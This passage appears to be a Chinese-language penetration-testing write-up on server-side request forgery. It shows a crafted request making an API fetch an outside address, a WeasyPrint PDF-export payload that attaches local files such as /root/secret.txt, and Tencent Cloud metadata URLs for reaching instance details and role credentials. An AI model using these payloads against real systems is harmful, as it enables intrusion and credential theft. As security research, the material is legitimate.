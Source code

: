 ![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGpgdLZh8uSaic8kQneU3LuG1nrrboia1r3EGB37j3xyB6p11J5SnKgbYYq9icSHHVTiaNN10fH3cSZtrw/640?wx_fmt=png "")  
  
  
POST /api/apimanage/trans/getThirdPartSwaggerJsonByAddr/ HTTP/1.1  
  
Host: apicloud.xxx.com  
  
Cookie:xxx=xxx  
  
{"addr":"http://106.12.xx.xx/302.php"}  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGpgdLZh8uSaic8kQneU3LuG18PgBLQnhYJ5SaCQE9J23dh1kbkkO4frPF7Zdfa71OjJMk9oaMLRyuA/640?wx_fmt=png "")  
  
#### HTML导出PDF下的ssrf（组件）  
  
WeasyPrint是一个用于HTML和CSS的可视化渲染引擎，可以将HTML文档导出为打印标准的PDF文件。  
```
WeasyPrint重新定义了一组html标签，包括img，embed，object等。根据我们之前的测试，我们已经知道javascript不是利用这一点的选项。在这一点上，我们的希望很低，我们开始认为PDF生成器不再可利用，直到我们发现对<链接>内部的几个文件的引用，包括pdf.py。这使我们能够通过使用 将任何网页或本地文件的内容附加到我们的 PDF 中。
<link rel=attachment href="file:///root/secret.txt">
```  
  
特殊标签用法：在html标签前的双引号符号(”)，补充单引号（'），会被允许在PDF中解析  
  
最终使用<iframe>遵循特殊标签用法处理插入后，成功外连，漏洞存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGpgdLZh8uSaic8kQneU3LuG1GmuXfVqqSfz3aCOyYrIbZ0nfaXXGxZiblVgy91IVe91OxeDPRJOcbAw/640?wx_fmt=png "")  
  
  
进一步利用  
  
使用file协议，获取敏感文件  
```
<link rel=attachment href="file:///root/secret.txt">
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGpgdLZh8uSaic8kQneU3LuG10vXWWjmNTH2KwJlPPTwc1obICmFBebX1Muv0G4XX3RJE2JSXCTJXMw/640?wx_fmt=png "")  
  
#### 云上ssrf利用  
  
云服务器一般会公开每个实例的内部服务(一般在帮助文档中都能查看)  
  
如果发现云服务器中的 SSRF 漏洞，可以直接查询主机实例的元数据从⽽进⼀步深⼊利⽤。  
  
腾讯云：  
```
访问元数据

http://metadata.tencentyun.com/latest/meta-data/ 获取 metadata 版本信息。

查询实例元数据。

http://metadata.tencentyun.com/latest/meta-data/placement/region

获取实例物理所在地信息。

http://metadata.tencentyun.com/latest/meta-data/local-ipv4 

获取实例内⽹ IP。实例存在多张⽹卡时，返回 eth0 设备的⽹络地址。

http://metadata.tencentyun.com/latest/meta-data/public-ipv4

获取实例公⽹ IP。

http://metadata.tencentyun.com/network/interfaces/macs/${mac}/vpc-id

实例⽹络接⼝ VPC ⽹络 ID。

在获取到⻆⾊名称后，可以通过以下链接取⻆⾊的临时凭证，${role-name} 为 CAM ⻆⾊

```